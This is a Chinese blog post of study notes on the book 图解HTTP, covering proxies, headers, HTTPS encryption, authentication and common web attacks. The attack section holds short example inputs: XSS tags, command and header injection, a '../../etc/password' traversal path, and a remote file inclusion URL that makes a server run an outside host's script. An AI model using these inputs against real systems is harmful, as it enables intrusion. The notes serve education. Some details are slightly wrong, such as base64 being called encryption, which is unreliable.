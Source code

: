 ```yaml
---
layout: post
title: 图解HTTP
date: 2021-12-02
tags: 计算机基础
---
```

<!-- ### 电子书链接
[图解HTTP](/downloads/图解HTTP.pdf) <br/> -->

### 通信数据转发程序（书5.2节）
#### 1.代理
- 代理：代理服务器的基本行为是接收客户端的请求后转发给其他服务器，不改变URI。
- 缓存代理: 代理转发时,缓存代理会预先将资源的副本(缓存)保存在代理服务器上。当代理再次接到相同资源的请求时，就可以不从资源服务器那里获取资源，而是将之前的缓存资源作为响应返回。
- 透明代理：转发请求或响应时，不对报文做任何加工的代理类型成为透明代理，反之成为非透明代理。

#### 2.网关
- 网关：网关与代理非常类似，但是能将客户端的http请求转化为其他协议与线路上的服务器通信。利用网关可以提高安全性，因为可以在客户端与网关之间的通信线路上加密。

#### 3.隧道
- 隧道：隧道是客户端与服务器之间建立的一条通信线路。隧道本身是透明的，不会解析http请求，会保持原样中转给服务器。隧道会用SSL等加密手段通信，保证远距离通信安全。隧道会在通信双方断开连接时结束。


### 首部Header（书6章）
- 端到端首部（End-to-end Header）：此类别的首部必须转发给请求/响应的最终接收对象，且必须保存在由缓存生成的响应中。
- 逐跳首部（Hop-by-hop Header）：此类别的首部只对单次转发有效，会因缓存或代理不再转发。必须提供Connection首部字段
> Http1.1仅有8个逐跳首部字段：Connection、Keep-Alive、Proxy-Authenticate、Proxy-Authorization、Trailer、TE、Transfer-Encoding、Upgrade

### HTTPS的混合加密（书7章）
- https即http在SSL或TSL安全通信线路上进行通信。
- 非对称加密优点是私钥私有，公钥公开，不会在交换密钥的过程中泄露不能公开的密钥（对称加密交换密钥的时候不能保证密钥不泄露）
- 非对称加密缺点是速度慢。
- https先用慢的非对称加密交换对称加密密钥，再用快的对称加密传递http报文，混合使用两种加密，保证了安全和速度。
> 详细步骤：
> 1. 服务器把自己公开密钥登记到数字证书认证机构
> 2. 认证机构用自己的私钥加签，发布公钥证书
> 3. 客户端用认证机构的公钥(浏览器通常内置)验签，证明服务器公钥未被篡改
> 4. 客户端用服务器公钥加密,发送报文
> 5. 服务端用私钥解密报文

- 客户端证书：需付费；用户自行安装；用户知识水平不同，实施困难；一些特殊业务，比如网银登录会使用；略
- 为什么不一直用https？答：因为SSL的加解密会消耗非常多的客户端、服务器硬件资源（CPU、内存），另外也能节省购买证书的开销。

### 身份认证（书8章）
1. basic认证：使用{用户:密码}格式，base64加密。不安全。
2. digest认证：通过质询-响应防止密码被窃听，但不能防止用户被伪装。使用不便捷，且达不到安全标准。
3. SSL客户端认证：需要客户端安装证书，会有额外开销。
4. 基于表单认证：密码加盐保存；session+cookie认证；bearer token。

### web攻击（书11章）
1. 输出值转义不完全引发的安全漏洞：
- XSS：例如在浏览器的输出框输入<script>标签，被浏览器解析成script脚本（而非纯文本），执行攻击代码。
- SQL注入：例如在查询输入框写sql，被当作sql语句执行（而非纯文本）。
- OS命令注入：在可调用Shell函数的地方，例如输入框内容拼接进os命令，输入";"加OS命令，攻击者就可以非法调用Shell命令。
- http首部注入攻击：例如在URL后拼接%0D%0A（HTTP报文中的换行符），接其他http首部，比如Set-Cookie设置sessionId，攻击者可以由此在响应中穿插任意首部。
- http响应截断攻击：特殊的首部注入，拼接2个%0D%0A换行符，之后便可伪造响应主体，用户浏览器会显示攻击者伪造的web页面。
- 邮件首部注入攻击：类似，略。
- 目录遍历攻击：攻击者将文件名"abc.log"修改成"../../etc/password"访问本应无权限的文件（未能处理好../)
- 远程文件包含漏洞：（主要在php）http://example.com/folo.php?mod=news.php，改成http://example.com/folo.php?mod=http://hackr.jp/cmd.php&cmd=ls,于是可以通过外部脚本让目标服务器(example.com)运行自己想要的Shell命令

2. 设置或设计上的缺陷引发的安全漏洞
- 强制浏览：例如可以通过url直接访问文件服务器上的图片/文件。
- 不正确的错误信息：例如登录提示用户名是否已注册；数据库异常上抛至页面会透露数据表设计。
- 开放重定向：允许重定向到任意指定URL。用户有可能被诱导到恶意网站。

3. 因会话管理疏忽引发的安全漏洞
- 会话劫持：攻击者用某种手段拿到用户的sessionId伪装成用户，例如利用XSS通过document.cookie窃取用户cookie中的会话ID。
- 会话固定攻击：攻击者从web网站拿到一个会话ID，攻击者准备陷阱强制用户使用这个会话ID认证，在用户完成认证之后，攻击者就能使用这个会话ID访问网站了。
- 跨站点请求伪造CSRF：

4. 其他安全漏洞
- 密码破解、点击劫持、DoS攻击、后门程序
- 点击劫持：用透明按钮/页面覆盖在用户页面上，透明按钮与用户页面按钮重合，诱导用户点击陷阱按钮。




